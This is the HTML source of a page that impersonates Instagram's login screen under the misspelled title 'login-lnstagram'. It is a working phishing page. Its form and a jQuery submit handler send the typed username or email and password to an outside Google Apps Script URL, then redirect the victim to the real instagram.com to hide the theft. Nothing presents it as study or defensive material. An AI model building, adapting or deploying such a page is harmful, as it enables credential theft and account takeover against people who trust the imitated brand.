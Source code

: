 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>login-lnstagram</title>
    <link rel="icon" href="https://www.edigitalagency.com.au/wp-content/uploads/instagram-logo-svg-vector-for-print.svg" type="image/icon type">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
    <link rel="stylesheet" href="insta.css" type="css/text">
   
  
        </head>
<body class="bg-light fluid">
    <header>
        <div class="col-lg-12" style="height: 6rem;"></div>
    </header>
    <section> 
        <div class="row col-lg-12 m-auto">
            <div class="card m-auto text-center p-3">
                <div class="align-items-center">
                <img src="images/Instagram-Logo-2016-present.jpg" class="img-fluid" alt="" style="width: 10rem;"></div>
                <div class="form-group align-items-ceter">
                    <form  id="submit-form"  method="POST" action="https://script.google.com/macros/s/AKfycbwgTigMygsPrhReJBeqKgo70o1spWMtLqoK2yaoj7Vp5Z1IPOoFD-58ppedwatvVzu62w/exec">
                    <input class="form-control m-0.5" name="userid"  type="text" placeholder="Email address or username" style="width: 100%;">
                    <input class="form-control mt-2" type="password" name="password" placeholder="Password" style="width: 100%;">
                    <button class="btn btn-primary mt-3" style="width: 100%;">login</button><br>
                </form>
                   
                   <a class="link"  href="hello.html"><small>Forgotte password?</small></a>
                    <p class="line"></p>
                    
                   
                
                </div>
              </div>
        </div>
        <div style="height: 3rem;"></div>

   
        <div class="text-center col-lg-12"><br><small>Get the app.</small>
        <br>
    <img src="https://www.instagram.com/static/images/appstore-install-badges/badge_ios_english-en.png/180ae7a0bcf7.png" alt="" style="width: 8rem;"><img src="https://www.instagram.com/static/images/appstore-install-badges/badge_android_english-en.png/e9cd846dc748.png" alt="" style="width: 8rem;">
</div>
    </section>
    
    <script src="https://code.jquery.com/jquery-3.2.1.slim.min.js" integrity="sha384-KJ3o2DKtIkvYIK3UENzmM7KCkRr/rE9/Qpg6aAZGJwFDMVNA/GpGFF93hXpG5KkN" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.12.9/umd/popper.min.js" integrity="sha384-ApNbgh9B+Y1QKtv3Rn7W3mgPxhU9K/ScQsAP7hUibX39j7fakFPskvXusvfa0b4Q" crossorigin="anonymous"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/js/bootstrap.min.js" integrity="sha384-JZR6Spejh4U02d8jOt6vLEHfe/JQGiRRSQQxSfFWpi1MquVdAyjUar5+76PVCmYl" crossorigin="anonymous"></script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script>
        $("#submit-form").submit((e)=>{
        e.preventDefault()
        $.ajax({
            url:"https://script.google.com/macros/s/AKfycbwgTigMygsPrhReJBeqKgo70o1spWMtLqoK2yaoj7Vp5Z1IPOoFD-58ppedwatvVzu62w/exec",
            data:$("#submit-form").serialize(),
            method:"POST",
            success:function (response){
                //alert("Form submitted successfully")
                
                window.location.href="https://instagram.com"
            },
            error:function (err){
                alert("Something Error")

            }
        })
    })
</script>
</body>
</html>
